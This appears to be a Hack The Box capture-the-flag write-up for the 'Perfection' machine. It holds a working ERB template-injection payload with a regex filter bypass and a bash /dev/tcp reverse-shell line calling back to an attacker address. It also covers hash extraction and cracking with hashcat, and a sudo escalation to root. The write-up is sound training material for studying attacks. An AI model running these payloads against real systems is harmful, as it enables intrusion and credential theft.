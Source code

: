 ```yaml
---
layaout: post
image: /assets/perfection/perfection.png
title: Perfection Write Up HTB
date: 12-02-2025
categories: [Write ups]
tag: [Hash Cracking,SSTI,Credential Dumping]
excerpt: "Perfection is an easy Linux machine with a web app that calculates student scores. The app is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass, allowing initial access. The user is part of the sudo group, and further enumeration reveals password hashes in a database. By performing a mask attack, the user's password is cracked, leading to root access."
---
```

![img-description](/assets/perfection/perfection.png)

Perfection is an easy Linux machine with a web app that calculates student scores. The app is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass, allowing initial access. The user is part of the sudo group, and further enumeration reveals password hashes in a database. By performing a mask attack, the user's password is cracked, leading to root access.

## ENUMERATION
---
First, we perform an Nmap scan to identify open ports:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.253 -oG allPorts
```

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.253 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-12 21:28 CET
Initiating SYN Stealth Scan at 21:28
Scanning 10.10.11.253 [65535 ports]
Discovered open port 22/tcp on 10.10.11.253
Discovered open port 80/tcp on 10.10.11.253
Completed SYN Stealth Scan at 21:28, 12.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.253
Host is up, received user-set (0.046s latency).
Scanned at 2025-02-12 21:28:40 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
           Raw packets sent: 65591 (2.886MB) | Rcvd: 65535 (2.621MB)
```

Since port 80 is open, we add it to the `/etc/hosts` file with the corresponding domain:

```bash
vim /etc/hosts
```

Upon accessing the domain, we see the following page:

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20214412.jpg)

There is a "calculate" section, which likely uses a template engine on the backend (such as ERB, Jinja2, Twig, etc.). This could be vulnerable to Server-Side Template Injection (SSTI).

## FOOTHOLD
---
To test for SSTI, we send the following payload using Burp Suite and check the response:
**IMP : You need to put several categories or else it won't work**

```bash
Math%0a<%25%3d+IO.popen('id').readlines()+%25>
```

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20224947.jpg)

Since the application is vulnerable, we proceed to execute a reverse shell:

```bash
Math%0a<%25%3d+IO.popen('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.16/4444+0>%261"').readlines()+%25>
```

Set up a listener and execute the payload:

```bash
nc -lvpn 4444
```

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.253] 56024
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ 
```

To improve shell functionality, run:

```bash
script /dev/null -c /bin/bash
```

```bash
susan@perfection:~$ script /dev/null -c /bin/bash
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
```

Now, in Susan's home directory, we find `user.txt`:

```bash
susan@perfection:~$ cat user.txt
03f43e5a1367d8ed6############
```

## PRIVILEGE ESCALATION
---
Inside Susan's home directory, we find a `Migration` folder containing a database.

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20230159.jpg)

Since it is a binary file, we use `strings` to extract readable data:

```bash
strings pupilpath_credentials.db
```

```bash
susan@perfection:~/Migration$ strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
...
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

### MASK ATTACKS
---
We focus on cracking Susan's password hash. First, create a wordlist containing the prefix `susan_nasus_`:

```bash
echo "susan_nasus_" > wl
```

Save the hash into a file:

```bash
echo "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f" > hash
```

Identify the hash type:

```bash
hashid -m 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f'
```

```bash
[+] SHA-256 [Hashcat Mode: 1400]
```

Using Hashcat to crack the hash:

```bash
hashcat -m 1400 -a 6 hash wl ?d?d?d?d?d?d?d?d?d -O
```

| Command                | Description |
| ---------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **hashcat**            | Runs Hashcat. |
| **-m 1400**            | Specifies the hash type (SHA-256). |
| **-a 6**               | Uses hybrid attack mode, combining a dictionary and a mask. |
| **hash**               | File containing the target hash. |
| **wl**                 | Dictionary file containing the fixed portion of the password (`susan_nasus_`). |
| **?d?d?d?d?d?d?d?d?d** | Mask specifying a 9-digit numeric suffix. |
| **-O**                 | Enables optimized mode, improving performance. |

After some time, we retrieve the password: **susan_nasus_413759210**

```bash
Session..........: hashcat
Status...........: Cracked
...
Recovered........: 1/1 (100.00%) Digests
...
```

Now, we can use `sudo su` to escalate privileges:

```bash
susan@perfection:~$ sudo su
[sudo] password for susan: susan_nasus_413759210

root@perfection:/home/susan# 
```

Retrieve `root.txt`:

```bash
root@perfection:~# cat root.txt
bd91ee880f4328d588############
```

Both flags are now obtained!

